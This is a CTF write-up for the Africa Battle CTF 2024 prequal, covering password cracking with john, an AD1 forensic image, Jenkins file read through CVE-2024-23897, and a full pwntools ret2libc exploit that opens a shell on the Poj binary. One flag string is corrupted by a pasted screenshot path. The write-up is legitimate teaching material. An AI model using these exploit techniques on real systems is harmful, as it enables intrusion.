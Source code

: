 # AFRICA BATTLE CTF 2024 PREQUAL

#### Challenges:
- Rules (Misc)
- Invite Code (Misc)
- Do[ro x2] (Forensics)
- Poj(Pwn)
- Jenkins (Web)
- Hmmmm!... (Web): _But not submitted, cause time over_

## Rules (Misc)
![image](./assets/1.png)

```
Flag: battleCTF{HereWeGo}
```
## Invite Code (Misc)

The challenge in question was made available before the CTF event started and can be found on bug|pwn Discord, Twitter and LinkedIn.

![image](./assets/2.png)
![image](./assets/3.png)

Decode the hex use *invite.ini* content and decode as b64 and extract gzip archive
![image](./assets/4.png)

Now we crack the user pasword using john and rockyou wordlist and find password **nohara**

![image](./assets/5.png)

At this point we use cracked password as key to decrypt RC4 encryption and got the flag

![image](./assets/6.png)

```
Flag: battleCTF{pwn2live_d7c51d9effacfe021fa0246e031c63e9116d8366875555771349d96c2cf0a60b}
```

## Do[ro x2] (Forensics)

In this challenge they provide us an [**AD1 file**](./assets/roro.ad1)

By using FTK Imager 4.7.xx we provide the password *Dororo* like chall name and it worked !

![image](./assets/7.png)

## Poj(Pwn)

Giving us 64 bits ELF file:

![image](./assets/8.png)

checksec result:

```sh
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./
```
After running the program we notice that some address is leaked
![image](./assets/9.png)

Now, decompile the program and figure out that it's libc **write** function. Here's the code
![image](./assets/10.png)

```c
void data.0000117d(void)
{
    write(1, "Africa battle CTF 2024\n", 0x17);
    printf("Write() address : %p\n", _write);
    fcn.0000115c();
    return;
}
```

Here is the decompile code of *fcn.0000115c()* function
![image](./assets/11.png)

```c
void fcn.0000115c(void)
{
    void *buf;
    
    read(0, &buf, 0x100);
    return;
}
```
Obviously we see a potential buffer overflow because it's read 0x100 bytes but *buf* @ stack - 0x48, so offset to RIP is 0x48 i.e 72

Confirmed: 
![image](./assets/12.png)

To determine the libc base here, we need to subtract the leaked libc value of the write function from the actual offset of write@libc.

Here is my [script](./poj/solve.py) to solve

```python
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw, env={"LD_PRELOAD":"./libc.so.6"})


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './poj'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

libc = ELF("./libc.so.6", checksec=False)
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 0x48

io.recvuntil(b'address : ')

write_addr = int(io.recvline(), 16)


libc_base = write_addr -  libc.sym['write']
system = libc_base + 0x4dab0
binsh = libc_base + 0x197e34

# POP RDI gadget (found with ropper)
pop_rdi = libc_base + 0x28215
ret = libc_base + 0x2668c


info('Write addrs: %#x', write_addr)
info('libc_base base addr: %#x ', libc_base)
info('pop rdi addr: %#x ', pop_rdi)
info('ret addr: %#x ', ret)

payload = flat(
            asm('nop') * offset,
            pop_rdi,
            binsh,
            ret,
            system)


io.sendline(payload)


io.interactive()
```

![image](./assets/13.png)

```
Flag: battleCTF/home/meta/Pictures/Screenshots/Screenshot from 2024-10-21 21-32-14.png{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}
```

## Jenkins (Web)

![image](./assets/14.png)

In this challenge Jenkins is version 2.441 and vulnerable to CVE-2024-23897

By using *jenkins-cli.jar* utils we able read local file on server

Flag location was guessy but we find it in /etc

![image](./assets/15.png)

```
Flag: battleCTF{I_Tr4vEl_T0_battleCTF_3bb8a0f488816fc377fc0cde93f2e0b1d4c1f9fda09dfaa4962d44d5a09f8fdb}
```